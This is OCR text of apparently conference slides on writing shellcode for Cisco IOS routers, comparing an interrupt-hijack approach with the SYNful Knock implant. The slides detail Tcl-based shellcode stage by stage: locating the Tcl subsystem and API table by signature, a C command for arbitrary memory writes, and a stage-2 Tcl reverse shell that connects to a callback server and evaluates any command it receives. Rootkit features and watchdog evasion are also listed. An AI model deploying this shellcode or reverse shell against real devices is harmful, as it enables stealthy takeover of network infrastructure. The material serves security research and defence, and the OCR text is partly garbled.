


## Interrupt-Hijack Shellcode

#### Two-stage attack

- Stage 1: 1. Unpack the second-stage shellcode
	- 2. Locate ERET instruction
	- 3. Intercept all interrupt handlers
- Stage 2: 1. Receive command by looking for incoming packets with specific format
	- 2. Execute command

#### Pros & Cons

- Fast, Stealth, High Privilege ●
- Create a hidden channel over ICMP ●
- It has a complex structure, it operates asynchronously ●
- lt presupposes a database containing the image-dependent ● payload to stage 3
- Rootkit-oriented ●








#### Interesting fact about SYNful Knock

## Cisco Event Response: SYNful Knock Malware

Threat Summary Last Updated: October 09, 2015

On Tuesday, September 15, Cisco and Mandiant/FireEye publicly disclosed information related to a type of persistent malware nam

Mandiant/FireEye published two bloq posts titled SYNful Knock - A Cisco router implant - Part I and SYNful Knock - A Cisco router implant - Part II Cisco posted the following blog: SYNful Knock: Detecting and Mitigating Cisco IOS Software Attacks

Cisco will provide additional updates on this Event Response Page as they become available.


#### What is SYNful Knock?

SYNtul Knock is a lype of persistent nalware that allows an attacker to gain control of a device and compromise its integrity with a modified Cisoo IOS Software image. The ma different modules that are enabled via the HTTP protocol (not HTTPS) and controlled by crafted TCP packets sent to the device.

## It seems that the SYNful Knock implant works in a similar way as the Interrupt-Hijack shellcode does

FireEye: SYNful Knock A CISCO IMPLANT

## Requirements to our shellcode

- Image and CPU architecture should be independent
- Works on a wide range of Cisco equipment
- Pentest-oriented
- The most powerful and flexible
- So fast that not to be caught by a watchdog


# Demo 0x01

## Tool Command Language

- Invented by John K. Ousterhout, Berkeley, 1980s 
- Interpreted Language, runtime available for many platforms (socket, files, regexp, list, etc.)
- Tcl has been included in Cisco IOS as a generic scripting language since 2003 (Release 12.3(2)T)
- In IOS, Tcl is extended by special commands:
	- exec executes an IOS shell command ■
	- ios config changes configuration
	- typeahead emulates a user input .
	- etc. ■
- Tcl Policy for Embedded Event Manager (EEM)

| Release/Platform Tree |  | Search Result |  |  |  |
| --- | --- | --- | --- | --- | --- |
| Train-Release Platform |  |  | Filter By: Select Field |  | V Filter Clear Filter |
| Sort |  | Release |  | Life Cycle   EoL Info Avl | Platform |
| D NX-OS | 4 | 15.3(3)52 | ED | Yes | 7600-RSP720/MSFC4 |
| D IOS XE 4 105 |  | 15.3(3)52 | ED | Yes | 7600-RSP720-10GE/MSFC4 |
| D 15.45 |  | 15.3(3)52 | ED | Yes | 7600-RSP720/MSFC4 |
| 15.35 |  | 15.3(3)52 | ED | Yes | 7600-RSP720-10GE/MSFC4 |
| 4 15.25 = 15.2(4)51 |  | 15.3(3)52 | ED | Yes | 7600-RSP720-10GE/MSFC4 |
| 三 15.2(4)5 |  | 15.3(3)52 | ED | Yes | 7600-RSP720/MSFC4 |
| 三 15.2(2)51 |  | 15.3(3)52 | ED | Yes | 7600-RSP720/MSFC4 |
| 三 15.2(2)5 三 15.2(1)52 |  | 15.3(3)52 | ED | Yes | 7600-RSP720-10GE/MSFC4 |
| 三 15.2(1)51 |  | 15.3(3)52 | ED | Yes | 7600-RSP720-10GE/MSFC4 |
| = 15.2(1)5 |  | 15.3(3)52 | ED | Yes | 7600-RSP720/MSFC4 |
| D 15.2E |  | 966666 | 9 | Vac | 7600 DED700 MCCCA |
| > 15.15Y |  |  |  |  |  |
| △ 15.15G |  |  |  | of 1 > > > > > |  |
| K - |  |  |  |  |  |

## Cisco Feature Navigator


## Tcl and Pentesting

- Almost the only way to extend the functionality of Cisco IOS
- Tcl scripts are portable between different platforms

Backdoors

Creating Backdoors in Cisco IOS using Tcl

Tools

IOSMap: TCP and UDP Port Scanning on Cisco IOS Platforms IOScat - a Port of Netcat's TCP functions to Cisco IOS

#### Malware

IOSTrojan: Who really owns your router? Cisco IOS Rootkits and Malware (Hakin9 Vol2 No4) More Ideas (Twitter as CC, Bot, Flood, Exploit) Attacking with Cisco devices PH-Neutral 2009 Attacking with Cisco devices Hashdays 2010 Attacking with Cisco devices HSLU 2011 Cisco Support Community/EMM Scripting

#### Shellcode

Felix 'FX' Lindner first proposed the use of Tcl in the shellcode Cisco IOS Router Explotation


## Tcl Shellcode. How does it work?

#### Stage 1

- 1. Determine the memory layout
- 2. Look for the Tcl subsystem in .data
- 3. Find a Tcl C API table within this subsystem
- 4. Determine addresses of all handlers for Tcl IOS command extension
- 5. Create new Tcl commands
- 6. Create new Tcl Interpreter by using Tcl C API
- 7. Run a Tcl script from memory (script is integrated in shellcode)

#### Stage 2

- 1. Script connects to the "callback" server
- 2. Evaluate any Tcl expression received from the server




## Tcl Shellcode. How does it work?

#### Stage 1

#### 1. Determine the memory layout

- 2. Look for the Tcl subsystem in .data
- 3. Find a Tcl C API table within this subsystem
- 4. Determine addresses of all handlers for Tcl IOS command extension
- 5. Create new Tcl commands
- 6. Create new Tcl Interpreter by using Tcl C API
- 7. Run a Tcl script from memory (script is integrated in shellcode)

#### Stage 2

- 1. Script connects to the "callback" server
- 2. Evaluate any Tcl expression received from the server


#### Determine the memory layout

#### Motivation

- To reduce the search time ●
- Not to cause an access violation
- Have to use the System Purpose Registers (SPR) ●
- This method depends on the processor architecture ●
- We can skip this step ●
- Because our shellcode is developed in C, it's not a big ● problem

Router# show platform hardware tlb

| Virt Address range Phy Address range W-I-M-G-E-S Attr TS ESEL |
| --- |
| 0xFF000000-0xFFFFFFFF 0x0_FF00000-0x0_FFFFFFFF 1-1-0-1-0-0 RWX 0 (0) |
| 0x04000000-0x07FFFFFF 0x0_0400000-0x0_07FFFFFF 0-0-1-0-0-0 RWX 0 (5) |
| 0x08000000-0x0BFFFFFFF 0x0 0800000-0x0 0BFFFFFF 0-0-1-0-0-0 R-X 0 (6) |
| 0x0C00000-0x0FFFFFFF 0x0_0C00000-0x0_0FFFFFFF 0-0-1-0-0-0 RW- 0 (7) |


## Tcl Shellcode. How does it work?

#### Stage 1

- 1. Determine the memory layout
- 2. Look for the Tcl subsystem in .data
- 3. Find a Tcl C API table within this subsystem
- 4. Determine addresses of all handlers for Tcl IOS command extension
- 5. Create new Tcl commands
- 6. Create new Tcl Interpreter by using Tcl C API
- 7. Run a Tcl script from memory (script is integrated in shellcode)

#### Stage 2

- 1. Script connects to the "callback" server
- 2. Evaluate any Tcl expression received from the server


## Looking for the Tcl subsystem

#### Motivation

- To reduce the search time
- All data relating to the Tcl subsystem is located below the header
- All functions relating the Tcl subsystem is located within tcl subsys init
- Locate all subsystems by signature C15C0515 C15C0515
- Find the Tcl subsystem by name "tcl"

subsystype_ <0xC15C0515, 0xC15C0515, 1, 0, 0, "tcl", 2, 0, 1, tcl_subsys_init, Library, 0, 0, 0>


## Tcl Shellcode. How does it work?

#### Stage 1

- 1. Determine the memory layout
- 2. Look for the Tcl subsystem in .data
- 3. Find a Tcl C API table within this subsystem
- 4. Determine addresses of all handlers for Tcl IOS command extension
- 5. Create new Tcl commands
- 6. Create new Tcl Interpreter by using Tcl C API
- 7. Run a Tcl script from memory (script is integrated in shellcode)

#### Stage 2

- 1. Script connects to the "callback" server
- 2. Evaluate any Tcl expression received from the server


### Find Tcl C API Table

### Tcl C API

- used for embedding
- used for extending
- Tcl API
- To abstract the specifics of the platform, a function's pointer table tclStubs is used
- We can get address of tclStubs by looking for the signature 0xFCA3BACF

## #define TCL_STUB_MAGIC 0xFCA3BACF

TclStubs tclStubs =

TCL STUB MAGIC, &tclStubHooks, Tcl PkgProvideEx, /* 0 */ Tcl_PkgRequireEx, /* 1 */ /* 2 */ Tcl Panic,

| Tcl_CreateCommand, |  |
| --- | --- |
| Tcl_CreateInterp, | /* 94 */ |
| Tcl_DeleteInterp, | /* 110 */ |
| Tcl_Eval, | /* 129 */ |
| Tcl_Exit, | /* 133 */ |


## Tcl Shellcode. How does it work?

#### Stage 1

- 1. Determine the memory layout
- 2. Look for the Tcl subsystem in .data
- 3. Find a Tcl C API table within this subsystem
- 4. Determine addresses of all handlers for Tcl IOS command extension
- 5. Create new Tcl commands
- 6. Create new Tcl Interpreter by using Tcl C API
- 7. Run a Tcl script from memory (script is integrated in shellcode)

#### Stage 2

- 1. Script connects to the "callback" server
- 2. Evaluate any Tcl expression received from the server


### Determine address of a handler for an extension

#### Motivation

- We want to use the Tcl IOS extensions
- We already have (in tclStubs ) the address of Tcl CreateCommand
- So, we can locate all the places where it is called
- Then we can get the handler's address and the name of extension by disassembling

Tcl_Command Tcl_CreateCommand (

```
Tcl  Interp * interp,
char * cmdName,
dTcl  CmdProc * proc,
ClientData clientData,
Tcl  CmdDeleteProc * deleteProc);
```

| 3C 80 09 94 lis r4, aIos_config@h # "ios_config" |
| --- |
| 3C A0 05 A7 lis r5, ios_config@ha |
| 38 84 12 44 addi r4, r4, aIos_config@l # cmdName |
| 38 A5 DF 0C addi r5, r5, ios_config@l # cmdProc |
| 38 C0 00 00 li r6, 0 # clientData |
| 38 E0 00 00 li r7, 0 # deleteProc |
| 7F E3 FB 78 mr r3, r31 # interp |
| 48 01 0F 8D bl Tcl CreateCommand |


## Tcl Shellcode. How does it work?

#### Stage 1

- 1. Determine the memory layout
- 2. Look for the Tcl subsystem in .data
- 3. Find a Tcl C API table within this subsystem
- 4. Determine addresses of all handlers for Tcl IOS command extension
- 5. Create new Tcl commands
- 6. Create new Tcl Interpreter by using Tcl C API
- 7. Run a Tcl script from memory (script is integrated in shellcode)

#### Stage 2

- 1. Script connects to the "callback" server
- 2. Evaluate any Tcl expression received from the server


#### Create your own Tcl command

```
int wmem(void* clientData, void* interp, int argc, char** argv)   // wmem addr value
    Interp* iPtr  =  (Interp *) interp;
    unsigned int* ptr  = NULL;
    unsigned int  value = 0;
    if(argc != 3) {
      iPtr->stubTable->tcl  AppendResult(interp, "wrong args", (char *) NULL);
      return TCL_ERROR;
    if(iPtr->stubTable->tcl_GetInt(interp, argv[1], &ptr) != TCL_OK) return TCL_ERROR;
    if(iPtr->stubTable->tcl_GetInt(interp, argv[2], &value) != TCL_OK) return TCL_ERROR;
    *ptr  = value; 
                      // write to an arbitrary address
    return TCL_OK;
```


## Tcl Shellcode. How does it work?

#### Stage 1

- 1. Determine the memory layout
- 2. Look for the Tcl subsystem in .data
- 3. Find a Tcl C API table within this subsystem
- 4. Determine addresses of all handlers for Tcl IOS command extension
- 5. Create new Tcl commands
- 6. Create new Tcl Interpreter by using Tcl C API
- 7. Run a Tcl script from memory (script is integrated in shellcode)

Stage 2

- 1. Script connects to the "callback" server
- 2. Evaluate any Tcl expression received from the server


## Run Tcl script from memory / Eval^2

```
void shellcode() {
     Tcl  Interp* interp = Tcl  CreateInterp();
     Tcl  CmdProc* tcl  exec =
     find Tcl command(subsys->init address, 1MB, "exec",
                     Tcl CreateCommand);
     if(tcl  exec != NULL){
        Tcl_CreateCommand(interp, "exec", tcl_exec, 0, 0);
     Tcl  CreateCommand(interp, "wmem", wmem, 0, 0);
     const char* script =
     #include "./tcl/stage2.tcl"
     Tcl_Eval(interp, script);
```

```
# ./tcl/stage2.tcl
set sockid [ socket "192.168.1.2" 1337]
while {1}
    flush $sockid
    set line   [gets $sockid]
    catch {eval $line} cmdres
    puts $sockid $cmdres
close $sockid
```


## Features / Properties / Limitations

#### Features

- We have a shell with the highest level of privileges
- We can work with file system and sockets
- We can read/write memory:
	- to change behavior of Cisco IOS
	- to analyze IOMEM

#### Advanced Features

- Macro Command (e.g. create GRE tunnel)
- Automation of attacks
- Reuse other TCl tools
- ROMMON Trojan

#### Properties

- Image-independent
- It's easy to port to other CPU architecture
- Approach can be applied to Cisco IOS XE
- No need to worry about a watchdog
- Hijack a process

#### Limitations

- Tcl is not everywhere
- The relatively large size (2KB 2.5KB)
- We can not create a Tcl server
- It uses an open channel (TCP connection)


## Demo 0x02


147

## CISCO IOS SHELLCODE: ALL-IN-ONE

## Conclusion


AM

## CISCO IOS SHELLCODE: ALL-IN-ONE

# The End

www.dsec.ru gnosenko@dsec.ru


